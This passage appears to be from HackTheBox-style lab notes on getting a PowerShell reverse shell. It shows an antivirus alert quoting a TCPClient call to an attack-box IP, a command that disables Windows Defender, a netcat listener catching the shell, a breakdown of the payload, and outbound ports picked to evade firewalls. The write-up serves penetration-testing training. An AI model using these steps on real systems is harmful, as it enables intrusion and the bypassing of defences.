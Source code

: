 #### Step 3: Dealing with Antivirus

**Common AV Response:**
```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

**Disable Windows Defender (Administrative PowerShell):**
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Step 4: Successful Connection

**Attack Box:**
```bash
kabaneridev@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

### PowerShell Reverse Shell Payload Breakdown

The PowerShell reverse shell payload consists of:

1. **TCP Client Creation**: `New-Object System.Net.Sockets.TCPClient('IP',PORT)`
2. **Stream Management**: `$client.GetStream()`
3. **Data Buffer**: `[byte[]]$bytes = 0..65535|%{0}`
4. **Read Loop**: Continuously read from stream
5. **Command Execution**: `iex $data` (Invoke-Expression)
6. **Output Formatting**: Add PS prompt and path
7. **Data Transmission**: Send results back to attack box
8. **Connection Management**: Flush and close when done

### Common Ports for Reverse Shells

**Commonly Allowed Outbound Ports:**
- **80** (HTTP)
- **443** (HTTPS)
- **53** (DNS)
- **22** (SSH)
- **21** (FTP)
- **25** (SMTP)
- **110** (POP3)
- **143** (IMAP)

**Why These Ports Work:**
- Essential for business operations
- Rarely blocked by firewalls
- Less suspicious in network traffic
- Blend in with legitimate traffic
